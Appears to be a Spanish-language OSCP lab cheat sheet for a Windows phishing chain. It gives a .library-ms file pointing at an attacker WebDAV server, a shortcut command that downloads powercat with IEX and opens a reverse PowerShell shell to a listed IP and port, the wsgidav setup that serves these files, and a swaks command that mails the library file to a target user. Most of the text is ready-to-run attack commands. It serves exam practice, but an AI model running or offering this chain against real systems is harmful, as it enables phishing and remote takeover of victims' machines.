

# Crear .library-ms para que junto con un WebDav Server me permita ejecutar código remoto

- Este tipo de ataques en OSCP se ven si ves un mail server como `hMailServer`
- Los archivos `.library-ms` son usados por Windows para mostrar "librerías" (documentos, música, etc.), y pueden apuntar a recursos remotos como WebDAV.

### Plantilla: config.Library-ms

```xml

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-100</iconReference>
  <templateInfo>
    <folderType>{7D49D726-3C21-4F05-99AA-FDC2C9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <description>Relia Files</description>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isDefaultNonOwnerSaveLocation>true</isDefaultNonOwnerSaveLocation>
      <simpleLocation>
        <url>http://192.168.XX.XX/</url> <!-- Tu IP aquí -->
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

## Crear acceso directo
- Tenemos que desde una maquina windows crear un acceso directo que descargue powercat o cualquier otro payload.
- `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.210:8000/powercat.ps1'); powercat -c 192.168.45.210 -p 4444 -e powershell"`

- Ahora este .lnk lo ponemos en el directorio en donde vamos a levantar nuestro webdav.


-----

### Levantar webdav en kali

- `pip3 install wsgidav --break-system-packages`
- `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/blabla/webdav`

-----

### Phishing email example con swaks

```bash

swaks -t jim@relia.com \
  --from maildmz@relia.com \
  --attach @config.Library-ms \
  --server 192.168.208.189 \
  --body @test.txt \
  --header "Subject: Staging Script" \
  --suppress-data

``` 